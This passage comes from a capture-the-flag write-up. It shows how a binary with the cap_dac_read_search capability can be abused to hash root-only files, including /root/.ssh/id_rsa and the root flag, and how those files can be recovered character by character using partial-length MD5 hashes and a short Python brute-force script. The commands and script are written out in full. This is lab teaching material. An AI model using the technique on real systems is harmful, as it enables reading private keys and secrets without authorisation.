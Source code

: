 ```
        Specific hash to check against. Not compatible with -h
```

Interesting. This file isn't an SUID binary, so let's check its capabilities:

```
greg@intentions:/opt/scanner$ getcap scanner
scanner cap_dac_read_search=ep
```

This basically means that the `scanner` binary can read **any file in the system**. Since this file can read any file and tell us the hash of this file, we can use it to check whether files exist too.&#x20;

```
greg@intentions:/opt/scanner$ ./scanner -p -s 2 -c /root/.ssh/id_rsa
[DEBUG] /root/.ssh/id_rsa has hash 1cd5f0fae381ed1b066b927995b7ef60
greg@intentions:/opt/scanner$ ./scanner -p -s 2 -c /root/root.txt   
[DEBUG] /root/root.txt has hash adcea6f929ae419d4134072be81fb3ab
```

The binary also allows us to specify the length of the bytes to check, meaning that we can guess each character one by one. For example, when we use `-l 1`:

```
greg@intentions:/opt/scanner$ ./scanner -p -s 2 -c /root/root.txt -l 1
[DEBUG] /root/root.txt has hash eccbc87e4b5ce2fe28308fd9f2a7baf3
```

The resultant hash is crackable on CrackStation to give the first character of the flag:

<figure><img src="../../.gitbook/assets/image (3558).png" alt=""><figcaption></figcaption></figure>

We can slowly brute force the `root` flag out character by character. The user flag was 33 characters, so this should be the same. I took the script from my RainyDay writeup and modified it a bit:

```python
import hashlib
import string

def md5hash(s):
    return hashlib.md5(s.encode()).hexdigest()

given_hash = "eccbc87e4b5ce2fe28308fd9f2a7baf3"
flag = ""
charset = string.printable

for c in charset:
    test_flag = flag + c
    test_hash = md5hash(test_flag)
    if test_hash == given_hash:
        print("Flag is:", test_flag)
        break
```
